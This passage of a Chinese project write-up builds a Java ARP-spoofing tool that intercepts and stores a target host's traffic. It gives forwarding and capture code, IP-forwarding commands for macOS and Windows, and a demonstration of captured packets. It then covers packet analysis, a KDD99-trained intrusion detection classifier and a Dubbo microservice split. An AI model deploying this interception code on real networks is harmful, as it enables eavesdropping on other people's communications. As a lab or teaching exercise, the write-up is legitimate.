                  if(packet.datalink instanceof EthernetPacket){
                    EthernetPacket eth = (EthernetPacket) packet.datalink;
                    String macFromCap = eth.getSourceAddress();
                    if(!macFromCap.equalsIgnoreCase(config.getSrcMac())){
                      savePacket(ipPacket, true);
                    }
                  }
                  forward(ipPacket, gateMACBT);
                }
                //如果这个数据包的目的IP地址是目标主机的IP地址，那么说明是下行链路的数据包
                else if(ipPacket.dst_ip.getHostAddress().equals(config.getDestIp())){
                  savePacket(ipPacket, false);
                  forward(ipPacket, dstMACBT);
                }
              }
            }

            //检查是否是ARP包
            if(packet instanceof ARPPacket){
              ....
            }
          }
        }catch (Throwable e){
          ...
        }
      }
    }
  };
  executor.execute(task);
}
```

接下来测试欺骗能否成功，运行程序，并访问请求`attack/startAttack`，此时服务端会开启两个子线程：

1. 一个线程用于发送欺骗包给目标主机和网关，进行欺骗。
2. 一个线程从网卡上抓包，看看能否抓到目标主机访问`filterDomain`的数据包。

首先在目标主机上查看ARP表，判断是否欺骗成功：

![image-20210329191331592](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329191331592.png)

如上图所示，已经成功将目标主机的网关MAC地址修改为了本地主机的MAC地址，因此目标主机发送的数据包都会经过本地主机的网卡。接下来我们在目标主机上访问`filterDomain`，并在服务端开启第二个线程抓包。结果失败了，压根没抓到目标主机的数据包，为什么呢？检查发现目标主机已经不能访问Internet了，发不出包。

既然MAC地址已经是本地主机了，说明目标主机的数据包应该能够发送到本地主机的网卡上，有可能是本地主机的网卡没开启IP转发，因为即使数据包接收到了，程序也调用了转发方法，但是底层的设备不支持IP转发，目标主机仍旧是无法访问Internet的。

所以我们尝试在本地主机上开启IP转发功能：

1. 在MAC上：
   1. 开启IP转发：sudo sysctl -w net.inet.ip.forwarding=1
   2. 查看IP转发已开启（为1）：sudo sysctl -a | grep net.inet.ip.forwarding

2. 在windows上：
   1. 开启IP转发：以管理员身份打开注册表编辑器，定位注册项HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/Tcpip/Parameters，选择项目IPEnableRouter并修改数值为1

![image-20210329192456978](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329192456978.png)

本地主机IP转发开启成功，继续测试：在目标主机上`ping www.baidu.com`，抓到一个从网关发到目标主机的ICMP数据包，我们把它转存入Redis：

![image-20210329193000045](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329193000045.png)

至此基本的攻击算是成功了。

为了后面的数据包分析功能，我决定把数据包存在redis的list结构中，list集合的名称按`batch_id`命名，list中的value就是每个序列化后的数据包实体。

开放攻击，查看前端数据统计，成功抓到了许多数据包。但是很明显有一个问题：只有下行的数据包被抓到了，上行的数据包没有被抓到。

![image-20210329204233419](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329204233419.png)

我感觉是本地主机开了IP转发的原因，网卡在接收到目标主机访问百度的数据包后，进行IP转发，把源MAC地址修改为了本地主机的MAC地址，然后将数据包转发给网关，所以当数据包的MAC地址为本地主机的MAC地址时，本程序将其过滤掉了。看看问题代码:

```java
//如果这个数据包的源IP地址是目标主机的IP地址，那么说明是上行链路的数据包
if(ipPacket.src_ip.getHostAddress().equals(config.getDestIp())){
  //如果这个数据包的源MAC地址是本地主机的MAC地址，说明这是我自己发送的数据包，需要忽略
  if(ipPacket.datalink instanceof EthernetPacket){
    EthernetPacket eth = (EthernetPacket) ipPacket.datalink;
    String macFromCap = eth.getSourceAddress();
    if(macFromCap.equalsIgnoreCase(config.getDestMac())){//卡在这了
      savePacket(ipPacket, true);
    }
  }
  forward(ipPacket, gateMACBT);
}
```

将MAC地址的限制放开，因为在外层if逻辑中已经明确判断出IP地址是目标主机的IP地址了，那么就不用MAC地址过滤了，把最内层if逻辑删除。重新抓包：抓到了上行链路的数据包，基本上是ping 1个，回应2个。

![image-20210329213112283](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329213112283.png)



#### 5.5.3 停止攻击

点击attack stop按钮后，会向服务器发送请求`/attack/stopAttack`。将标识位`attacking`置为`false`，并返回`batch_id`到前端。前端随即将`batch_id`作为参数向服务器发起请求`analyse/analysisByBatchId?batchId=1`，开始分析数据包。





### 5.6 数据包分析

所有被抓取的数据包都被封装到名为`CapturedXXXPacket`的pojo类中，并序列化到redis。当服务端接收到`analysisByBatchId`请求后，会根据批次读出`CapturedXXXPacket`数据，然后对数据包进行分析。以TCP包为例，在分析过程中会将HTTP和HTTPS包从其他的TCP包中过滤出来，另行存放。假设当前在分析一个HTTP包:

1. 首先根据端口号过滤，源或者目地端口为80端口的数据包留下
2. 然后将TCP的ACK号作为Key，将TCP报文段重组，通过`appendPacket`实现
3. 最后将所有有效的HTTP包封装为`AnalyzedHttpPacket`并序列化到redis中。

主要代码如下：

```java
private long analysisHttp(Integer batchId){
  this.analyzing = true;
  List<CapturedTCPPacket> fromList = (List<CapturedTCPPacket>) redisMapper.getFromList(AttackKey.cap_packet, "batch_id" + batchId + "_TCP_list", CapturedTCPPacket.class);
  HttpPacketFilter httpPacketFilter = new HttpPacketFilter();
  Map<Long, IAnalysisRealm> analysisRealmMap = new HashMap<>();
  long size = 0;
  for (CapturedTCPPacket tcpCapturedPacket : fromList) {
    TCPPacket tcpPacket = tcpCapturedPacket.getPacket();
    //根据端口号判断是否是HTTP协议
    if(!httpPacketFilter.filter(tcpPacket)){

      if (tcpPacket.getData() != null && tcpPacket.getData().length > 0) {
        size++;
        //根据TCP包的ACK号作为Key
        if (!analysisRealmMap.containsKey(tcpPacket.getAckNum())) {
          HttpAnalysisRealm httpAnalysisRealm = new HttpAnalysisRealm();
          httpAnalysisRealm.initPacket(tcpCapturedPacket.getBatchId(), tcpCapturedPacket.isUpStream(), tcpPacket);
          analysisRealmMap.put(tcpPacket.getAckNum(), httpAnalysisRealm);
        } else {
          analysisRealmMap.get(tcpPacket.getAckNum()).appendPacket(tcpPacket);
        }
      }
    }
  }

  saveRealmPackets(analysisRealmMap, batchId, new AnalyzedHttpPacket());
  this.analyzing = false;
  return size;
}
```

其他数据包的处理类似，不再赘述。

### 5.7 前端数据包可视化

在前端设置到过滤条件后，点击Filter按钮，提交post请求`/analyze/filterPackets`到服务器。

![Snip20210406_157](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/Snip20210406_157.png)

服务端处理请求，解析参数。先从redis中按照batchId查询出数据包，然后根据过滤条件过滤，最终返回数据包。实际上应当以过滤条件作为查询语句去数据库中查询，这样能够减少数据库的查询时间并减少网络通信开销，在高并发场景下提高效率。这里用redis，没办法特别自由地查询数据。

查询后的结果如下：

![image-20210406204426228](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210406204426228.png)







## 6. 入侵检测

接下来将在以上项目的基础上，实现简单的入侵检测系统。

入侵检测一共分为四个步骤：

1. **抓取数据包**：一般的IDS通常可以挂接在网关上，通过连接集线器或者分路器，把经由网关的数据包同样转发到IDS上。在本场景下，并无上述硬件条件，因此就按上一节中的方法来捕获数据包。
2. **数据包分组**：将数据包先按设备分组，再按时间戳分组。具体就是先按源IP地址分组，在同个源IP分组内按捕获的时间窗口分组，比如10秒内的数据包放在一组，下个10秒的数据包放在一组。
3. **特征提取**：从数据包中提取有状态特征和无状态特征。
   1. 无状态特征：
      1. Packet Size：通常DoS攻击的数据包都很小，例如SYN泛洪
      2. 包间间隔：异常流量通常是集中式的。包间间隔的特征可以直接将时间差作为特征，也可以将时间差的差分作为特征。
      3. 协议：正常流量的协议是较为丰富的，异常流量通常TCP的包相当多。
   2. 有状态特征：
      1. 带宽：统计10秒窗口内的平均带宽。
      2. 目地IP地址：如果经常出现新的目的IP地址，很有可能是遭受了攻击。统计两个时间窗口内目的IP地址的变化作为特征。

4. **二分类**：将分类器的输出结果作为是否遭受攻击的依据。
   1. KNN
   2. LSVM
   3. 决策树
   4. 随机森林

接下来要解决几个问题：

1. 数据集如何获取？
2. 入侵检测服务在哪里实现？

首先关于入侵检测服务如何实现的问题，有两个解决方案：

1. 直接在同一个服务端实现，后台开一个线程定时从数据库中读数据包，然后分析。
2. 划分微服务，用Dubbo实现。



数据集采用KDD cup 1999数据集，关于该数据集的详细分析见[链接](https://blog.csdn.net/qq_38384924/article/details/97128744)。

主要用j48 tree来实现分类器，将训练好的模型保存在web端，便于读取，训练过程略了，模型文件见src/model目录。





## 7. 微服务拆分

用dubbo作为RPC框架，zookeeper作为注册中心，将数据包分析服务、入侵检测服务、邮件发送服务拆分出来，通过dubbo注册到zookeeper上，实现远程调用。

在使用dubbo的时候，需要注意spring-cloud版本和spring-boot版本的对应关系。建议在创建Spring-boot项目的时候，使用阿里的镜像源创建，然后勾选spring-cloud-alibaba中的dubbo组件，这样就无需再处理版本对应，创建出来的就是合适的版本。

我的springboot版本是`2.3.7-RELEASE`，Springcloud版本是`2.2.1-RELEASE`，在使用时报错：

```shell
cannot access its superinterface org.springframework.cloud.openfeign.Targeter
```

将`spring-boot-devtools`依赖删除即可，这应该是官方的问题。

### 模块拆分

**api模块**：创建一个api模块（普通maven工程），将服务接口、服务模型、服务异常等均放在 API 包中。

**provider模块**：每一种服务对应一个provider模块（Springboot工程）：

* analyze-service-provider：数据包分析模块
* ids-service-provider：入侵检测模块
* mail-service-provider：邮件发送模块

**服务调用**：在backend模块中调用上述服务。



### 入侵检测服务

首先在api模块中编写接口`IIDSService`:

```java
package com.hyc.interfaces;

/**
 * @author kol Huang
 * @date 2021/4/12
 */
public interface IIDSService {

  boolean isAttacked();

}
```

在analyze-service-provider模块中编写IIDSService接口的实现类`IDSServiceImpl`，代码的大体框架如下所示：

```java
package com.hyc.idsserviceprovider.impl;

import com.hyc.interfaces.IIDSService;
import org.apache.dubbo.config.annotation.Service;
import weka.classifiers.trees.J48;
import weka.core.Instance;
import weka.core.Instances;
import weka.core.SerializationHelper;
import weka.core.converters.ConverterUtils;
import weka.experiment.InstanceQuery;

/**
 * @author kol Huang
 * @date 2021/4/12
 */
@Service
public class IDSServiceImpl implements IIDSService {

  int[] table = new int[41];

  @Override
  public boolean isAttacked() {
    //判断是否被攻击
    //1. 从mysql中查询验证集
    //        ConverterUtils.DataSource source = null;
    Instances data = null;
    try {
      InstanceQuery query = new InstanceQuery();
      query.setUsername("root");
      query.setPassword("123456");
      //读100条，先处理
      query.setQuery("select * from features");
      data = query.retrieveInstances();
    } catch (Exception e) {
      e.printStackTrace();
    }
    //2. 读取模型
    J48 j48Tree = null;
    try {
      j48Tree = (J48) SerializationHelper.read("src/model/j48.model");
    } catch (Exception e) {
      e.printStackTrace();
    }
    //3. 多分类
    for (Instance datum : data) {
      try {
        int type = (int) j48Tree.classifyInstance(datum);
        table[type]++;
      } catch (Exception e) {
        e.printStackTrace();
      }
    }
    //4. 统计判别：当此次分析过程中，有百分之80的数据记录被判别为攻击流量，那么就说明发生了攻击



    return false;
  }
}

```

这里有些粗糙了，应当统计所有的攻击类型，然后封装到一个DTO里返回，这样可以在邮件服务里面添加攻击的详细信息。